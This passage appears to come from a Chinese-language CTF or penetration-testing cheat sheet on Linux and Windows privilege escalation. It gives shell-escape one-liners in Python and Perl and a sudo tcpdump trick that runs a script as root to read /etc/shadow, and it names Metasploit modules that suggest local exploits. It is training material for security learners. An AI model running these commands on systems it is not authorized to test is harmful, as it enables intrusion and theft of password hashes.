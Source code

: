#### python

```
import os
os.system("/bin/bash")
```

#### perl

```
exec "/bin/bash";
```

ruby/lua/etc也有相似

#### tcpdump

```
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

> 可以参考 https://www.cnblogs.com/zaqzzz/p/12075132.html

## 常用手法

### MSF

使用`post/windows/gather/enum_patches`模块，并配置相应的session后自动获取可使用的提权漏洞

![](images/ctf-2021-09-27-14-53-13.png)

MSF下还提供了`post/multi/recon/local_exploit_suggester`模块，该模块用于快速识别系统中可能被利用的漏洞

![](images/ctf-2021-09-27-14-53-27.png)
